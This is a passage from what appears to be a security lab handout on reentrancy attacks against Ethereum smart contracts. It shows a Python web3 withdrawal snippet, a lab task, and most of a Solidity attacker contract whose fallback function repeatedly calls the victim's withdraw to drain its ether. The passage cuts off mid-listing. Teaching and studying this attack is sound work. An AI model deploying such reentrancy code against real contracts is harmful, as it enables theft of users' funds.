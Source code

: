```
```

Similarly, we can withdraw our money from the contract. The following code snippet withdraw 1 ether from the contract, and then print out the balance of the sender.

- Listing 4: Withdraw money (withdrawfromvictimcontract.py)

```
amount = 1
contract = web3.eth.contract(address=victim_addr, abi=contract_abi)
tx_hash = contract.functions.withdraw(Web3.toWei(amount, ’ether’)).transact({
’from’: sender_account
})
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

# print out the balance of my account via a local call
myBalance = contract.functions.getBalance(sender_account).call()
print("My balance {}: {}".format(sender_account, myBalance))
```

**Lab task**: Please deposit 30 ethers to the victim contract, and then withdraw 5 ethers from it. Please show
the balance of the contract.

## 4 Task 2: The Attacking Contract

To launch the reentrancy attack on the victim contract, the attacker needs to deploy an attack smart contract. An example of the attack contract is already provided in the lab setup and the code is listed below.

Listing 5: The attack contract (ReentrancyAttacker.sol)

```
//SPDX-License-Identifier: UNLICENSED
pragma solidity ˆ0.6.8;

import "./ReentrancyVictim.sol";

contract ReentrancyAttacker {
   ReentrancyVictim public victim;
   address payable _owner;

   constructor (address payable _addr) public {
     victim = ReentrancyVictim(_addr);
     _owner = payable (msg.sender);
}

fallback() external payable {
    if (address(victim).balance >= 1 ether ) {
      victim.withdraw(1 ether );
}

}
function attack() external payable {
   require ( msg.value >= 1 ether , "You need to send one ether when attacking");

   victim.deposit{ value: 1 ether }();
   victim.withdraw(1 ether );
}


function getBalance() public view returns (uint) {
   return address(this).balance;
}

function cashOut(address payable _addr) external payable {
```